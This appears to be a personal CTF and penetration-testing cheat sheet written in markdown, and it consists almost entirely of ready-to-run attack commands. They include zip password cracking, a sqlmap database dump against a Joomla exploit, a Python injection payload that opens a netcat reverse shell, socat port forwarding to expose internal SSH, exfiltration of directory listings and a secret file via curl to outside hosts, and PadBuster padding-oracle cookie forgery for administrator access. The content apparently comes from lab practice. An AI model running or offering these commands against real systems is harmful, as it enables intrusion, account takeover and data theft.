 ## cracking zips

apart from zip2john and john, there is also `fcrackzip -b --method 2 -D -p rockyou.txt -v extracted.zip`

## Injections

Raw sqlmap will go through all its tests, which might take ages. If you know the test to use, then you can actually specify it in the sqlmap command.

`sqlmap -u "http://10.10.69.3/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --test-filter="MySQL >= 5.0 error-based - Parameter replace (FLOOR)" --random-agent --dump -p list[fullordering]`

In the above, exploiting https://www.exploit-db.com/exploits/42033, I know the param and the test that will work, so I specify both and jump straight to the dumping.

If able to inject some python script, e.g. into unsanitised input, this can work:

`__import__('os').popen('nc 10.10.106.5 4444 -e /bin/sh').read()`

## Other stuff

this will expose an internal only port 22 as a public port 8888

`/tmp/socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22`

this will exfiltrate command outputs if all you have is the ability to make web requests:

`ls -laR ../../../ | base64 -w0 | xargs -I T curl 10.10.149.217:1234/?x=T`

if you have a server or burp collaborator-like functionality, you can retrieve posted files via:

`curl -X POST -F test=@/home/carlos/secret http://pohwe4zygesamfa7r5y0nutip9v1jq.burpcollaborator.net`

Downloading a file with perl

`perl -e 'use LWP::Simple qw(get); echo(get "http://www.grislygrotto.nz")'`

## Padding oracle attacks

use https://github.com/AonCyberLabs/PadBuster
might need to install: `sudo apt-get install libcrypt-ssleay-perl`

command to decrypt some cookie value:  

`./padBuster.pl http://10.10.31.123/index.php TaIt46TG994JDsPmpFp8Q0XovkIFJHY4 8 -cookies hcon=TaIt46TG994JDsPmpFp8Q0XovkIFJHY4 -error "Invalid padding"`

if that works, and the cookie value is something you want to manipulate, you can use the same tool to encrypt via the -plaintext argument:

`./padBuster.pl http://10.10.31.123/index.php TaIt46TG994JDsPmpFp8Q0XovkIFJHY4 8 -cookies hcon=TaIt46TG994JDsPmpFp8Q0XovkIFJHY4 -error "Invalid padding" -plaintext user=administratorhc0nwithyhackme`

## Kubernetes
